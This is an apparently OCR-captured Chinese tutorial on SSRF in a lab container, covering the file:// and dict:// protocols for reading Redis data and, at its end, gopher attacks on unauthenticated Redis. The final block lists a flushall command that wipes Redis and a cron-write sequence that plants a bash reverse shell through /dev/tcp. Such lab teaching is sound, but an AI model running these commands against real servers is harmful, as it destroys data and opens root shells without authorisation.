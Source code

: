 file协议，就是本地文件传输协议。主要用于访问本地计算机中的文件，就像通过Windows的资源管理器打开文件或右键打开文件一样。

用法：

```
file:///文件的路径
```

举个例子：我们打开D盘的abc.txt文件，可以在资源管理器搜索框中输入``file:///g:\abc.txt``也可以在浏览器中输入``file:///g:/abc.txt``来读取。

平常我们访问其他网站文件URL的结构为(如百度)：

```
https://baidu.com/index.php
```

当我们直接访问文件时，没有中间的host内容，所以中间不填入任何东西，就变为了：

```
file:///index.php
```

所以成为了三个``/``。

##### dict协议：

由于很多的``SSRF``协议中利用的都是结合``Redis``服务的，所以这里就先在``ssrf-basics``容器里安装该服务：

```
docker ps  //查看容器编号
docker exec -it 容器编号 /bin/bash //进入容器
apt-get install redis-server //安装redis服务
redis-server //开启redis服务
```

[![6XCp6I.png](https://z3.ax1x.com/2021/03/25/6XCp6I.png)](https://imgtu.com/i/6XCp6I)

安装好之后，便可以利用协议搜集信息及反弹shell。

利用``dict``协议，``dict://127.0.0.1:6379/info``可以获取本地``redis``服务配置信息。

[![6XCc3d.md.png](https://z3.ax1x.com/2021/03/25/6XCc3d.md.png)](https://imgtu.com/i/6XCc3d)

利用``dict://127.0.0.1:6379/KEYS*``获取``redis``存储的内容。

[![6XCxET.png](https://z3.ax1x.com/2021/03/25/6XCxET.png)](https://imgtu.com/i/6XCxET)

**gopher协议：**

内网中的``redis``存在未授权访问漏洞，当Redis服务以``root``权限运行时，利用``Gopher协议``攻击内网中的Redis，通过写入定时任务可以实现反弹shell。

首先先了解一下通常攻击Redis的命令，然后转化为Gopher可用的协议：

```
//清空指定host的整个Redis服务器的数据
redis-cli -h $1 flushall

//redis写定时任务获取root权限(反弹shell)
redis-cli -h $1 config set dir /var/spool/cron/  
redis-cli -h $1 config set dbfilename root
redis-cli -h $1 save
echo -e "\n\n*/1* * * * bash -i >& /dev/tcp/127.0.0.1/45952 0>&1\n\n"|redis-cli -h $1 -x set 1
```
